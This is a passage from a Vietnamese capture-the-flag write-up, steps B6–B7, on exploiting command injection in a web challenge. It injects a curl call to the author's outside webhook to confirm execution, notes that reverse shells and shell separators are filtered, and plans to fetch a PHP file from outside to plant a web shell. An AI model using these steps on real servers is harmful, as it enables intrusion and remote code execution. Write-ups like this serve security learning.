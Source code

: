 **B6:** Ta thử thêm parameter `cmd` vào URL và để kiểm tra xem liệu Command có được thực thi không thì ta sẽ dùng lệnh `curl` đến Webhook bên ngoài của ta `cmd=curl Webhook_cua_ta`.

![alt text](./images/image-2.png)

Ta thử kiểm tra lại Webhook:

![alt text](./images/image-3.png)

=> Tới đây, ta có thể kết luận là ta đã được Authentication với tư cách là `admin` và ngoài ra ta có thể dùng được lệnh `curl`

Kế tiếp, làm sao để đọc được `Flag`?
* **Trả lời:** Như ta đã biết thì ta không thể tạo `Reverse Shell` do đã bị filter, ngoài ra ta cũng chẳng thể dùng cách nối dài câu lệnh vì Web đã escape các ký tự như: `; | & %`,...
* Như đã biết, ta có thể dùng lệnh `curl` trên Website, vậy thì ta sẽ thử upload 1 file php từ bên ngoài vào Website, sau đó ta sẽ thử truy cập file php đó, nếu file đó có tồn tại thì chứng tỏ ta có thể tạo 1 Web Shell để lấy `Flag`.

**B7:** Ta sẽ thử giả thuyết trên:

Đầu tiên, ta sẽ tạo 1 file `hello.php` với nội dung là:
```
<?php phpinfo(); ?>
```
```
$> echo "<?php phpinfo(); ?>" > hello.php

$> ls -la
total 50
drwxr-xr-x  9 root root   4096 Feb 14 04:43 .
drwx------ 25 root root   4096 Feb 14 04:42 ..
-rw-r--r--  1 root root     20 Feb 14 04:43 hello.php
```
